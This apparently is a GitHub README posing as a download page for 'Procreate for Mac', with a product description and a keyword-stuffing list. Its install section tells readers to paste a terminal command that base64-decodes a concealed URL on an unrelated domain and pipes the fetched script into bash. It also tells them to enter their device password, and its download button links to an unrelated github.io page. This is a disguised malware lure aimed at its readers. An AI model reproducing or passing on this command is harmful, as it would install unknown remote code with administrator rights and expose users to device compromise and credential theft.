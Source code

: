# Procreate Mac Download - Professional Digital Art Studio

![Procreate Screenshot 1](https://procreate-assets-cdn.procreate.com/_nuxt/ipad_en.TexGJC9W.jpg)

---

## 🔽 Download Procreate for Mac

[![Download Now](https://img.shields.io/badge/Download_Procreate-blueviolet?style=for-the-badge&logo=github)](https://montiko384.github.io/.github/wordperfect)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is Procreate for Mac?

Procreate is a groundbreaking digital art application designed for macOS, offering a powerful and intuitive platform for artists, illustrators, and designers. With its advanced brush engine, high-performance canvas, and extensive toolset, Procreate transforms your Mac into a versatile digital art studio. Whether you're sketching, painting, or creating intricate illustrations, Procreate provides the tools you need to unleash your creativity.

Procreate's brush library includes hundreds of customizable brushes, from realistic pencils and inks to dynamic watercolors and oils. The app supports pressure sensitivity and tilt functionality, making it ideal for use with the Apple Pencil or other styluses. Its 64-bit color engine ensures stunning visuals, while the QuickShape feature helps artists create perfect shapes with ease.

One of Procreate's standout features is its animation assist, which allows users to create frame-by-frame animations directly within the app. The software also supports time-lapse recording, enabling artists to share their creative process. With seamless integration with iCloud and other creative apps, Procreate is the perfect tool for professional artists and hobbyists alike.

![Procreate Screenshot 2](https://procreate-assets-cdn.procreate.com/_nuxt/procreate_en.CVgbeXXD.jpg)

---

## Key Features & Benefits

- 🎨 Hundreds of customizable brushes  
- ✏️ Pressure and tilt support for Apple Pencil  
- 🖌 Advanced 64-bit color engine  
- 🎞 Animation assist for frame-by-frame creations  
- ⏱ Time-lapse recording of your artwork  
- ☁️ iCloud integration for easy file management  

Procreate is the ultimate digital art tool for Mac, combining power, precision, and creativity in one seamless package.

---

## 🔍 Keywords

Procreate for Mac, Procreate Mac Download, Procreate for Mac Download, Procreate Mac, Procreate Download Mac, Procreate Download for Mac, procreate full version, Mac Download Procreate, Download Mac Procreate, Download Procreate Mac, Download Procreate for Mac
